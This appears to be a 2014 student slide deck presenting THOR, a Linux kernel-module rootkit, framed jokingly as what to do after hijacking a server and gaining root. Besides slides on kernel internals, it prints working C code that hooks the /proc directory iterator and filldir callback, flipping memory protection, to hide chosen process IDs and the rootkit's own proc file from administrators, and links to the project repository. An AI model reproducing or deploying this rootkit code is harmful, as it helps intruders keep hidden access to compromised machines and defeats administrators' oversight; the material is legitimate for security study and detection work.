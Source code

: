 % THOR\
  The ~~Horrific~~ Hopefully Omnipotent Rootkit
% Alex Hirsch
  FraJo Haider
% 2014-12-01

## The Linux Kernel

\centerline{\includegraphics[width=300px]{gfx/kernel.png}} [^1]

[^1]: <http://sysplay.in/blog/linux-device-drivers/2013/02>

## Internals

\centerline{\includegraphics[width=280px]{gfx/kernel_map.png}} [^2]

[^2]: <http://en.wikipedia.org/wiki/Linux_kernel>

## Dafuq?

\centerline{\includegraphics[width=280px]{gfx/dafuq.jpg}}

## Okay Okay ... Imagine

- you are a student doing some ... ehm .. *research*
- you managed to hijack a server, acquired root privileges and now what?

- you could fool around, delete files, load some torrents, because `<INSERT
  REASON>`
- use the server as proxy to do even more ~~evil~~ *research oriented* stuff

But sooner or later the admin may recognize that the server has been
compromised, and lock you out.

## Solution: **Rootkit**

\centerline{\includegraphics[width=200px]{gfx/rootkit.jpg}}

## Main Usage

- provides backdoor
- hides suspicious activities
    - open ports
    - suspicious processes
    - files
- **hides its own presents**

## Why Kernel Module

- **more power**, kernel space > user space

In general system administration tools invoke *system calls* to retrieve
information directly from the kernel. Hence compromising the *root of
information* by overwriting certain system calls will render most
administration tools useless.

## Kernel Module Basics

- can be loaded / unloaded dynamically using `insmod` / `rmmod` as root
- can be loaded at boot
- *Linux Headers* provide an API
- communication via *files* (usually located in `/proc`)

## Problems

\centerline{\includegraphics[width=250px]{gfx/problems.jpg}}

## Problems

- little example code for up2date kernels
- Headers do not export enough, hence complete source is required
- hijacking systemcalls is not really encouraged by the developers
    - *yeah, no shit sherlock*

## Current State

- communication using file in `/proc`
- basic hiding of files by name
- basic hiding of processes by PID
- hiding of sockets ... work in progress
- working in 3.14 (Arch LTS) and 3.17 (Arch Current)

## Example: new `proc_filldir()`

```{.c .numberLines}
static int thor_proc_filldir(void *buf, const char *name, int namelen,
        loff_t offset, u64 ino, unsigned d_type)
{
    struct _pid_list *tmp;

    // hide specified PIDs
    list_for_each_entry(tmp, &(pid_list.list), list)
    {
        if(0 == strcmp(name, tmp->name)) return 0;
    }

    // hide thor itself
    if (0 == strcmp(name, THOR_PROCFILE)) return 0;

    return orig_proc_filldir(buf, name, namelen, offset, ino, d_type);
}
```

## Injection `prochidder_init()`

```{.c .numberLines}
static int __init prochidder_init(void)
{
    // insert our modified iterate for /proc
    procroot = procfile->parent;
    proc_fops = (struct file_operations*)procroot->proc_fops;

    orig_proc_iterate = proc_fops->iterate;

    set_addr_rw(proc_fops);

    proc_fops->iterate = thor_proc_iterate;

    set_addr_ro(proc_fops);

    INIT_LIST_HEAD(&pid_list.list);

    return 0;
}
```

## Injection `proc_iterate()`

```{.c .numberLines}
static int thor_proc_iterate(struct file *file, struct dir_context *ctx)
{
    int ret;
    filldir_t *ctx_actor;

    // capture original filldir function
    orig_proc_filldir = ctx->actor;

    // cast away const from ctx->actor
    ctx_actor = (filldir_t*)(&ctx->actor);

    // store our filldir in ctx->actor
    *ctx_actor = thor_proc_filldir;
    ret = orig_proc_iterate(file, ctx);

    // restore original filldir
    *ctx_actor = orig_proc_filldir;

    return ret;
}
```

## Take a look

Github: <http://git.io/ZwNdCQ>

\centerline{\includegraphics[width=150px]{gfx/qrcode.png}}
